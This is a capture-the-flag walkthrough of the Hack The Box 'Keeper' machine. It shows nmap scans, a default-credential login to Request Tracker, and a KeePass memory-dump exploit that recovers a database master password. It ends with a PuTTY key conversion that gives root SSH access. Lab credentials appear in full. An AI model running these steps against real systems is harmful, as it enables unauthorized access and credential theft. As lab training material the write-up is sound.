



# [Keeper](https://app.hackthebox.com/machines/keeper)

```bash
nmap -p- --min-rate 5000 10.10.11.227 -Pn
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.227
```


Let's browse web application for finding anything as interesting.


From here, I see that I need to add `keeper.htb` and `tickets.keeper.htb` domain names into `/etc/hosts` file for resolving purposes.


While browsing `tickets.keeper.htb`, I see some login page as below.


That's some `CMS` style application, let's search default credentials for `RT` software.




Hola! This default credentials `root: password` worked for our target.


As this user is `root` user, that's why we have privilege to access sensitive information of user. On description section, I see password of this user.


lnorgaard: Welcome2023!

Let's login into machine via `ssh`.
```bash
ssh lnorgaard@keeper.htb
```


user.txt




As you see, there's interesting file called `RT30000.zip`, we need to extract data from here.

Let's extract via `unzip` command.


From here, I download `passcodes.kdbx` file into my machine.

1.First, I open http.server .
```bash
python3 -m http.server --bind 10.10.11.227 8080
```


2.Then download this file via `wget` command.
```bash
wget http://10.10.11.227:8080/passcodes.kdbx
```


I tried this [exploit](https://github.com/z-jxy/keepass_dump) for `KeePass` that, I can know password of this file and read all content from here.

Let's use this exploit.

```bash
python3 keepass_dump.py -f KeePassDumpFull.dmp
```

From here, I got `dgrd med flde` string and search meaning of this on Google.


I take really password as `rødgrød med fløde` and look this file via `kpcli` command.
```bash
kpcli --kdb /home/kali/Desktop/passcode.kdbx
```


From here I got credentials of `root` user

root: F4><3K0nd!

For reading this file content, I use online `.kdbx` [file editor](https://app.keeweb.info/) means to see content clearly via `GUI`.


But I need to get `key file` for `OpenSSH` to login into machine, but it is `Putty`.

**Note**: `keygen.ppk` file is thing I got from `Notes` section and I write type of key file as `private-openssh` and output is saved into `id_rsa` file.

```bash
puttygen keygen.ppk -O private-openssh -o id_rsa
```




Let's do `600` privilege for `id_rsa` file and login into machine.
```bash
chmod 600 id_rsa
ssh -i id_rsa keeper.htb
```

root.txt

